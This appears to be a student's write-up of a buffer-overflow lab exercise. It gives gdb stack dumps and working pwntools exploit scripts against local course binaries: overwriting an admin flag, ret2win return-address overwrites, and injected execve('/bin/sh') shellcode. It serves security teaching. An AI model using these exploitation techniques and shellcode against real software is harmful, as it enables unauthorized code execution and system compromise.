 # Laborator 2

### [Q1]: Can you imagine a scenario where this would affect a program's behavior?
### Solution to [Q1]:
If I have a boolean `is_admin` and an input buffer that stores a name, and I input more characters than the buffer can hold, the overflow could overwrite the `is_admin` value in memory. This might set `is_admin` to `true`, potentially giving unauthorized admin access.

## Exercise 1
### [Q2]: Can you bypass the check that "grants you access", without knowing the secret password?
### Solution to [Q2]:
The `password` buffer is 8 characters long, but if we enter more than 8 characters (for example, `aaaaaaaa1`), the extra character (`1`) overflows the buffer and can overwrite the adjacent `is_admin` variable in memory. This sets `is_admin` to `1`, which the program interprets as granting admin access, bypassing the password check.

### [Q3]: How can we inspect the stack layout of a program?
### Solution to [Q3]:
`gdb`

## Solution to Exercise 1: 
```
$ make ex1
$ echo -n 'aaaaaaaa1' > input
$ gdb -q
pwndbg> file ./bin/ex1
pwndbg> b main
pwndbg> run < input
pwndbg> n
pwndbg> n
pwndbg> x/10gx $rsp
```

```python
0x7fffffffdca0: 0x6161616161616161      0x0000000000000031
0x7fffffffdcb0: 0x00007fffffffdd50      0x00007ffff7dcf1ca
0x7fffffffdcc0: 0x00007fffffffdd00      0x00007fffffffddd8
0x7fffffffdcd0: 0x0000000100400040      0x0000000000401176
0x7fffffffdce0: 0x00007fffffffddd8      0x9de42ea233c29359
```

At address `0x7fffffffdca0`, we see the `password` buffer containing `0x6161616161616161` (which represents "aaaaaaaa"). In the next 8 bytes, at `0x7fffffffdca8`, we find `0x0000000000000031`, which corresponds to `is_admin`. This has been modified to a non-zero value (`1`), indicating that our overflow was successful.

## Exercise 2
### [Q4]: How can we exploit the program just with `echo -ne`?
### Solution to [Q4]:
```python
$ echo -ne 'AAAAAAAA\xef\xbe\xad\xde' | ./bin/ex2
```

## Solution to Exercise 2: 
```python
#!/usr/bin/env python3

from pwn import *

target = process("./bin/ex2")

payload = b"A" * 8 + p64(0xDEADBEEF)
print(payload)

target.send(payload)
target.interactive()
```

## Exercise 3
### [Q5]: How many bytes are between the beginning of our vulnerable buffer and the return address?
### Solution to [Q5]:
56

## Solution to Exercise 3: 
```python
from pwn import *

exe = './bin/ex3'
p = process(exe)

win_addr = p64(0x401156)
padding = b'A' * 56
payload = padding + win_addr

p.sendline(payload)
p.interactive()
```

## Exercise 4
### [Q6]: What type is the first argument to `execve`? Check the manual (`man execve`).
### Solution to [Q6]:
```c
int execve(const char *pathname, char *const _Nullable argv[], char *const _Nullable envp[]);
```

First argument is a `const char`.

### [Q7]: How can we get the right address of `/bin/sh`?
### Solution to [Q7]:
We find the address of `/bin/sh` at runtime:
```python
jmp get_binsh       

start:
    pop rdi         
    xor rsi, rsi    
    xor rdx, rdx    
    mov rax, 59         # 59 is the linux system call for execve
    syscall

get_binsh:
    call start          # pushes the string onto the stack
    .string "/bin/sh"   
```

## Solution to Exercise 4:
```python
#!/usr/bin/env python3

from pwn import *
import os

context.update(arch='amd64', os='linux')
context.binary = './bin/ex4'
target = process('./bin/ex4')

shellcode = asm('''
    jmp get_binsh
start:
    pop rdi
    xor rsi, rsi
    xor rdx, rdx
    mov rax, 59
    syscall
get_binsh:
    call start
    .string "/bin/sh"
''')

padding = b'A' * (264 - len(shellcode))
payload = padding + shellcode

target.recvuntil(b'Buffer at ')
buffer_address = int(target.recvline().strip(), 16)

payload += p64(buffer_address + len(padding))

target.send(payload)
target.interactive()
```

## Extra Challenges
### 1. Exploitation prodigy
### Solution to 1.:
```python
#!/usr/bin/env python3

from pwn import *

target = process('./bin/bonus')

payload = b'A' * 40 + p64(0x401156)  + p64(0x401173)    # 0x401156 = address of dothidden(); 0x401173 = address of win()

target.send(payload)
target.interactive()
```
